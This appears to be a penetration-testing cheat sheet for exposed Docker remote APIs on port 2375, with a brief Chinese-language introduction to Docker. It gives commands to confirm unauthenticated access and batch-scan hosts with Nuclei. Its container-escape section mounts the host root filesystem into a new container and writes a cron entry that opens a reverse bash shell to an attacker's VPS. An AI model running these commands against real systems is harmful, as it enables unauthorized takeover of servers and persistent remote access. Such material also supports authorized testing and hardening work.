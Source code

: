 # Docker

<details>

<summary>Introduction</summary>

Docker 是一种开源的容器化平台，用于构建、发布和管理应用程序和其依赖的轻量级容器。容器是一种独立、可移植的软件包，其中包含了应用程序运行所需的所有组件，如代码、运行时环境、系统工具和库。Docker 利用操作系统级虚拟化技术，使得应用程序可以在几乎任何环境中以相同的方式运行，无论是开发、测试、部署到生产环境还是在云端。它提供了简单易用的命令行接口和丰富的功能，如镜像管理、容器网络和存储卷等，成为了现代软件开发和部署的核心工具之一。

</details>

<table><thead><tr><th width="178">Name</th><th>Docker</th></tr></thead><tbody><tr><td><strong>Default Port</strong></td><td>2375</td></tr><tr><td><strong>RCE</strong></td><td>Feasible</td></tr><tr><td><strong>Vulnerability</strong></td><td><ul><li>Unauthorized Access</li><li>Container Escape (GetShell)</li></ul></td></tr></tbody></table>

## Unauthorized Access

{% code title="Environment" %}
```bash
HOST=; PORT=2375; # TARGET HOST INFO
```
{% endcode %}

{% code title="Validation" %}
```bash
curl $HOST:$PORT/version
curl $HOST:$PORT/info
docker -H tcp://$HOST:$PORT images
docker -H tcp://$HOST:$PORT container
```
{% endcode %}

### Batch Testing

{% code title="Use Nuclei" %}
```bash
nuclei -t ~/nuclei-templates/http/misconfiguration/exposed-docker-api.yaml -l hosts-port.txt
```
{% endcode %}

{% code title="Reference Docs" %}
```
https://github.com/projectdiscovery/nuclei-templates/blob/main/http/misconfiguration/exposed-docker-api.yaml
```
{% endcode %}

## Container Escape

{% code title="Environment" %}
```bash
HOST=; PORT=2375; # TARGET HOST INFO
```
{% endcode %}

{% code title="Container Escape" %}
```bash
# Create a container using Docker on the target host
# If there is no network, try adding --network host
docker -H tcp://$HOST:$PORT run -it -v /:/mnt nginx:latest --name nginx-test /bin/bash

# Inside the container
HOST=; PORT=6789; # VPS INFO
echo "* * * * * root /bin/bash -i >& /dev/tcp/$HOST/$PORT 0>&1 > /mnt/etc/cron.d/reverse_shell
```
{% endcode %}
